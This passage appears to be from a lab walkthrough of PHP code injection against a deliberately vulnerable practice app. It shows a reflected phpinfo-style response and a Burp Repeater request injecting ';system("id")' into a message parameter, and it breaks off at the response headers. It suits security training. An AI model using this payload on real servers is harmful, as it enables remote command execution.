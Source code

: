 ```http
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 12741
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>

[...]

    <h1>PHP Code Injection</h1>

    <p>This is just a test page, reflecting back your <a href="/phpi.php?message=test">message</a>...</p>
    
    <p><i>test<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
<style type="text/css">
body {background-color: #ffffff; color: #000000;}
body, td, th, h1, h2 {font-family: sans-serif;}
pre {margin: 0px; font-family: monospace;}
a:link {color: #000099; text-decoration: none; background-color: #ffffff;}
a:hover {text-decoration: underline;}
table {border-collapse: collapse;}
.center {text-align: center;}
.center table { margin-left: auto; margin-right: auto; text-align: left;}
.center th { text-align: center !important; }
td, th { border: 1px solid #000000; font-size: 75%; vertical-align: baseline;}
h1 {font-size: 150%;}
h2 {font-size: 125%;}
.p {text-align: left;}
.e {background-color: #ccccff; font-weight: bold; color: #000000;}
.h {background-color: #9999cc; font-weight: bold; color: #000000;}
.v {background-color: #cccccc; color: #000000;}
.vr {background-color: #cccccc; text-align: right; color: #000000;}
img {float: right; border: 0px;}
hr {width: 600px; background-color: #cccccc; border: 0px; height: 1px; color: #000000;} 📌

[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /phpi.php?message=test;system(%22id%22) HTTP/1.1 📌
Host: 192.146.24.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=ninhe461b4eaiodht0pb5g9990; security_level=0
Upgrade-Insecure-Requests: 1
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Wed, 27 Nov 2024 16:06:13 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
```